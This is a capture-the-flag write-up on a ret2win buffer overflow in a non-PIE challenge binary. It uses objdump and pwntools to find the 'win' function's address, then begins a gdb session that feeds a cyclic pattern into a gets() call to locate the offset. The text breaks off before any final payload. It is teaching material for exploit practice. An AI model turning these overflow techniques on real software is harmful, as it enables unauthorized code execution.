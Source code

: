 We're dealing with a program with no `PIE` (Position Independent Executable). That means that the addresses inside the executable are going to stay the same between multiple systems and multiple runs.


## Finding Address Of `win`-method

```bash
$ objdump -t rip | grep F
0000000000401190 l     F .text  0000000000000000              deregister_tm_clones
00000000004011c0 l     F .text  0000000000000000              register_tm_clones
# ...abbreviated
00000000004012f4 g     F .text  0000000000000017              win
0000000000401180 g     F .text  0000000000000005              .hidden _dl_relocate_static_pie
0000000000401150 g     F .text  000000000000002f              _start
000000000040130b g     F .text  000000000000007a              main
0000000000000000       F *UND*  0000000000000000              setvbuf@@GLIBC_2.2.5
00000000004012ce g     F .text  0000000000000026              ignore_me_init_signal
0000000000401000 g     F .init  0000000000000000              .hidden _init
```

Address of the `win`-method is `0x4012f4` as seen using `objdump`.

We can also get the address in our `Python`-script using `pwntools` like this:

```python
elf = ELF("./rip")
addr_win = elf.symbols['win']
print(f"{addr_win:X}")
```

Now we need to perform a buffer overflow on the `gets`-call. That way we can find the offset we need to place the address of the `win`-method on the stack.


## Buffer Overflow & Finding The Exploit Offset

```c
char lol[100];
```

The buffer in the program has a length of `100`. Let's create a `cyclic` pattern of `150` chars:

```bash
$ cyclic 150
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabma
```

Now let's run the program in `gdb` and have a look:

```bash
$ gdb rip
GNU gdb (Debian 10.1-2+b1) 10.1.90.20210103-git
gef➤

gef➤  r
Starting program: /home/hag/ctf-equinor-22/educational-rip/rip-handout/rip
Enter password
> aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabma
```
